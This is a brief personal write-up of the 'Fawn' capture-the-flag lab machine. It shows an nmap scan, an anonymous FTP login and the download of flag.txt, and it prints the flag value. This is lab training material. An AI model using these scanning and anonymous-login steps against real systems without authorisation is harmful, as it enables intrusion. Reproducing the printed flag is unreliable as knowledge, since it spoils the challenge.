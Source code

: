 # 🦌 Fawn

This was a very easy box to complete and literally took ~5mins to complete (these notes probs took more time to write than to do the machine).

## 1. Enumerate the machine by running nmap:

   ```
   sudo nmap -sC -sV -O -p- 10.129.1.14 -v
   ```
   
   This then showed that anonymous ftp was allowed and there was a file on the server:
   ![[Pasted image 20240229011847.png]]

## 2. Anonymously logging into the FTP service:

You can login to anonymously like:

```
$ ftp <target_ip>

Connected to 10.129.1.14.
220 (vsFTPd 3.0.3)
Name (10.129.1.14:root): anonymous
331 Please specify the password.
Password: anonymous
230 Login successful.
```

After logging in, a quick `ls` confirms that the `flag.txt` file is there and then we can download the file to the attacker machine using:

```
ftp> get flag.txt
```

![[Pasted image 20240229012236.png]]

The file can then be found in my home folder and the contents can be read with `cat`.

![[Pasted image 20240229012353.png]]

Contents of flag.txt: `035db21c881520061c53e0536e44f815`